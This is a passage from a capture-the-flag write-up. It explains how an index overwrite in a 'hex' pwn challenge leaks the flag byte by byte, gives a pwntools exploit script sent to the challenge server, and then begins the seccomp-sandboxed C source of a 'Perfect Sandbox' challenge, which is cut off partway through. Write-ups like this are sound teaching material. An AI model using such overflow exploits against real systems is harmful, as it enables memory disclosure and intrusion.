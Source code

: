 ```c
        i--;
    }
}
```
The only difference is that inside the while loop, it checks for negative i, and exits.

The stack will look exactly the same as hex1, so we can override i again.

As we can see in the while loop, it will print the `name[i]` for us, and then exit! this is good to us, because this way we can leak the flag byte by byte.

here is the exploit:

```py
from pwn import *
elf = ELF("./chal")

flag = ''
for i in range(1, 70):
	p = remote('amt.rs' , 31631)
	p.recvline()
	p.sendline(b"A" * 28 + p32(0xffffffff - 0x40 + i))
	flag += chr(int(p.recvline()[:-1].decode(), 16))
	print(flag)
	p.close()
```
## Pwn/Perfect Sandbox

perfect-sandbox was a pwn sandbox escape challenge with 49 solves. here is its source code:


```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <err.h>
#include <time.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <string.h>
#include <linux/seccomp.h>
#include <seccomp.h>

void setup_seccomp () {
    scmp_filter_ctx ctx;
    ctx = seccomp_init(SCMP_ACT_KILL);
    int ret = 0;
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    ret |= seccomp_load(ctx);
    if (ret) {
        errx(1, "seccomp failed");
    }
}

int main () {
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    char * tmp = mmap(NULL, 4096, PROT_READ | PROT_WRITE, MAP_ANON | MAP_PRIVATE, -1, 0);

    int urandom = open("/dev/urandom", O_RDONLY);
    if (urandom < 0) {
        errx(1, "open /dev/urandom failed");
    }
```